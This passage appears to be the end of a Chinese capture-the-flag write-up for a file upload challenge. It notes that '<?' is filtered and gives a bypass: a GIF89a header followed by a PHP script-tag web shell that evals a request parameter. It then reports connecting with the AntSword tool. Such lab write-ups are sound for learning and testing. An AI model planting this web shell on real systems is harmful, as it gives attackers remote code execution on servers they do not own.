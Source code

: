 ![在这里插入图片描述](img/9c087c818608487b20ae786fccb223b3.png)
看来<?被过滤掉了，我们换

```
GIF89a? <script language="php">eval($_REQUEST[feng])</script> 
```

上传成功，蚁剑连接
![在这里插入图片描述](img/11d278d1012149aa38440f49291db884.png)
本题得解
